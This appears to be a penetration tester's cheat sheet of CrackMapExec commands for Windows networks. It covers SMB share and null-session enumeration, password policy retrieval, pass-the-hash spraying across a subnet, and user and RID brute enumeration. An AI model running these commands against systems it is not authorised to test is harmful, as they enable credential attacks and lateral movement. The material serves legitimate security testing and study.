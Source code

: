 # Crackmapexec Cheatsheet
Contains the submodules
-   [Impacket](https://github.com/CoreSecurity/impacket)
-   [Pywinrm](https://github.com/diyan/pywinrm)
-   [Pywerview](https://github.com/the-useless-one/pywerview)
-   [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
-   [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
-   [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
-   [Mimikittenz](https://github.com/putterpanda/mimikittenz)
-   [NetRipper](https://github.com/NytroRST/NetRipper)
-   [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
-   [SessionGopher](https://github.com/fireeye/SessionGopher)
-   [Mimipenguin](https://github.com/huntergregal/mimipenguin)


## Connecting
```bash
crackmapexec smb $domain
crackmapexec smb $IP $IP-2
crackmapexec smb $IP-Range $IP-Range-More-Specific 
crackmapexec smb $Subnetmask
crackmapexec smb targets.txt
```

## Shares
Similar checklist from Ippsec to match the pentester use case of [[SMB-Recon-Cheatsheet]] `smbclient`, to enumerate specific configuration, but also Pentester are more *"finickity"*:

```bash
crackmapexec smb $IP --shares
crackmapexec smb $IP --shares -u ''
crackmapexec smb $IP --shares -u 'Test'
crackmapexec smb $IP --shares -u 'Test' -p ''
```


#### Null sessions
```bash
crackmapexec smb $IP -u "" up ""
```

With Null sessions Windows System that upgraded from 2003, anonymous authenication to grab password policy:
```bash
crackmapexec smb $IP -u '' -p '' --pass-pol
```
Account lockout threshold: 0 -> bruteforcing with [[Password-Attacks]] 

```bash
crackmapexec smb $IP  -u <user> -p <password>
```

## Spraying
#### Pass the hash against a subnet
```bash

crackmapexec smb $Subnetmask -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb $Subnetmask -u administrator -H 'NTHASH'
```

## Enumeration
#### Users
```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --rid-brute
crackmapexec smb $IP -u '$foothold-account' -p '$password' --groups
crackmapexec smb $IP -u '$foothold-account' -p '$password' --local-users
```

```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --shares
crackmapexec smb $IP -u '$foothold-account' -p '$password' --pass-pol

```

## References

[ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
[haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
[haax9 -Github](https://github.com/Haax9)
[blackhatethicalhacking](https://www.blackhatethicalhacking.com/tools/crackmapexec/)
[Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)